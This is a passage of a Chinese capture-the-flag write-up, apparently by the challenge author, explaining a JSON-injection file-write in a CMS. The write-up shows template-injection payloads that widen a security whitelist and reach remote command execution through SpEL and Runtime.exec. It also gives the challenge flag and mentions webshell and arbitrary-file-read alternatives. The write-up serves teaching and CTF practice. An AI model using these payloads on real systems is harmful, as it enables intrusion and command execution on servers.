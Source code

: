 思路很明确：通过构造恶意的文件名打一个`JSON`注入攻击`parseObject`覆盖`/usr/local/tomcat/webapps/ROOT/WEB-INF/classes/templates/test.btl`，第一次文件写入调用`test`方法覆盖白名单多放点包路径。

```bash
${@nese.elephantcms.common.WhiteListNativeSecurityManager.test('org.springframework,java.beans,venom.elephantcms')}
```

第二次文件写入覆盖`upload.btl`打`RCE`即可。

```bash
${@java.beans.Beans.instantiate(null,parameter.a).parseExpression(parameter.b).getValue()}

/upload?a=org.springframework.expression.spel.standard.SpelExpressionParser&b=new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('{command}').getInputStream()).next()
```

不过还有个坑点就是第二步覆盖的模板不能是`test.btl`了，可能是缓存的原因导致即便写入第二次的`payload`访问模板还是会执行第一次的`payload`。

梭之：

![1708172558206](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1708172558206.png)

删减了这么多代码还是降了不少难度，并且这里只考了`JSON`注入的一个利用，同名属性覆盖没有考。

#### flag

flag{oh_m3_ued1t0r_an3_may_be_y0u_can_f1nd_s0m3_0day}

#### 非预期

“随便打打”师傅在比赛过程中做出了这道题，用的是`fastjson mysql`任意文件读出来的`flag`，我觉得只要审出来`json`拼接就算是预期吧。另外其实任意文件写`jsp`也可以（属实是小丑了），不过由于挖的那个`day`是`jfinal`框架写的，`filter`过滤了`jsp`，不过也有办法绕过就是了。
关于`jsp`写`webshell`需要分号`;`的问题（写不了分号的原因在上面提到了），我当时是没有解决所以这里预期解是覆盖`.btl`模版。现在想想应该有方法解决，之前读`RFC`标准的时候好像看到有可以`url`编码请求头的操作。

第一次在公开比赛里出题，确实有很多欠考虑的地方。另外这种任意文件上传的利用肯定有很多解法，在这里就抛砖引玉了。